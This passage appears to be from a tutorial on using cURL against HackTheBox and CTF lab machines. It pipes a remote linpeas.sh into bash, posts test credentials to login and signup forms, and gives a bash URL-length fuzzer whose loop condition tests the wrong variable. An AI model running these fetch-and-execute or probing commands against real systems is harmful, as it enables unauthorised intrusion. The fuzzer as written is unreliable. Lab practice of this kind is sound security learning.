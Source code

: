 Now that we have covered the basic syntax and use cases, here are some practical hacking applications that are very helpful on Hackthebox or CTF boxes.

### Using cURL to pipe a remote scipt (linpeas.sh) directly to bash:

```shell
$ curl -sSk "http://10.10.10.10/linpeas.sh" | bash
```

### Attacking a Login Form with cURL

```shell
$ curl --data "email=test@test.com&password=test" http://10.10.10.10/login.php
```

### Creating new users with cURL

```shell
$ curl --data "name=test&email=test@test.com&password=test" http://10.10.10.10/newuser.php
```

## Fuzzing Web Servers with cURL

Often we performing an assessment against a webserver, we will attempt to trigger error conditions which will provide some deeper insights into the underlying processes and software. cURL can be a powerful fuzzing tool for generating these edge case error messages.

### Fuzzing with URI length / GET parameter length limits with cURL

The following script can be used to fuzz a webserver with a long URL track the changes in output and write the output to a file. It is meant to be a basic scaffold for you to build a fit for purpose fuzzer using cURL and Bash. You can modify the url to either fuzz a URI or a GET parameter.

Here is the bash shell script:

```shell
#!/bin/bash
echo "args: <URL> <Start Length #> <End Length #> <Output Filepath>"
echo "Length Lines Words Bytes Filename"
echo "---------------------------------"
for ((i = $2; x <= $3; i++))
do
        fuzz=""
        for ((x = 1; x <= $i; x++))
        do
                fuzz+="A"
        done
        #echo "COUNT: $i $fuzz"
        #echo "${1}${fuzz}"
        echo "${i}" | { tr -d '\n' ; curl "${1}${fuzz}" -o ${4} 2>/dev/null | wc ${4}; }
done
```
